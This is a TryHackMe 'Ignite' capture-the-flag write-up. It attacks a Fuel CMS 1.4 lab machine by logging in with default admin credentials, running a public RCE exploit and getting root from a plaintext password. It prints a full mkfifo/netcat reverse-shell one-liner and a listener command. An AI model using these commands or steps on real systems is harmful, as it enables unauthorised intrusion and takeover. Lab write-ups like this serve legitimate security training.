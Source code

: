 ```yaml
---
title: "TryHackMe - Ignite"
author: Nasrallah
description: ""
date: 2022-03-21 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, rce, exploit]
#img_path: /assets/img/tryhackme
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png
  width:
  height:
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Ignite](https://tryhackme.com/room/ignite) from [TryHackMe](https://tryhackme.com), and easy machine where we find a CMS vulnerable to RCE, we use an exploit to help us get a reverse shell on the machine, then we look through the CMS files to find a plain text password of root.

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Nmap scan report for 10.10.89.94
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

We only have port 80 open, and there is a robots.txt file, let's run a directory scan while we go check the webpage.

## WebPage

Let's navigate to the webpage.

![webpage](/assets/img/tryhackme/ignite/igniteweb.png)

We have Fuel CMS with version 1.4 running on the webserver. There is nothing else, let's check what we got from the directory scan.

## Gobuster

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.239.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/0                    (Status: 200) [Size: 16597]
/assets               (Status: 301) [Size: 315] [--> http://10.10.239.131/assets/]
/home                 (Status: 200) [Size: 16597]                                 
/index                (Status: 200) [Size: 16597]                                 
/index.php            (Status: 200) [Size: 16597]                                 
/lost+found           (Status: 400) [Size: 1134]                                  
/offline              (Status: 200) [Size: 70]                                    
/robots.txt           (Status: 200) [Size: 30]                                    
/server-status        (Status: 403) [Size: 301]                                   
===============================================================
```
Let's navigate to **/robots.txt**.

![robts](/assets/img/tryhackme/ignite/robots.png)

There is 1 disallowed entry, **/fuel**, let's see what there.

![login](/assets/img/tryhackme/ignite/loginpage.png)

We found a login page for **fuelcms**, let's see if we can get in by submitting some knows credentials.

![panle](/assets/img/tryhackme/ignite/panel.png)

I managed to login using **admin:admin**

Let's check if there is any exploit for this version of fuel cms.

![exploit](/assets/img/tryhackme/ignite/ignitexploitdb.png)

We found 3 RCE exploit, let's download one of the exploit and try run some commands. I will be using this [exploit](https://www.exploit-db.com/exploits/50477).

# **Foothold**

Let's run the exploit now.

![rce](/assets/img/tryhackme/ignite/rce.png)

We are able now to execute code on the machine, let's get a proper shell.

First, setup a listener on your attacking machine(`nc -lnvp 9001`) and execute the following command on the RCE prompt `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f`
>NOTE: Change the ip address on the command

![rce](/assets/img/tryhackme/ignite/mkfifo.png)

![rce](/assets/img/tryhackme/ignite/shell.png)

I used the python import pty trick to stabilize my shell.

# **Privilege Escalation**

For Privilege Escalation, i uploaded linpeas to the machine to do the scan for me.

![wget](/assets/img/tryhackme/ignite/wget.png)

Let's run the script and see what it will find.

![rootpass](/assets/img/tryhackme/ignite/rootpass.png)

There is a root password in plain text in one of the file of the application. Let's see if it works.

![root](/assets/img/tryhackme/ignite/root.png)

Great! The password worked and we got root access.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
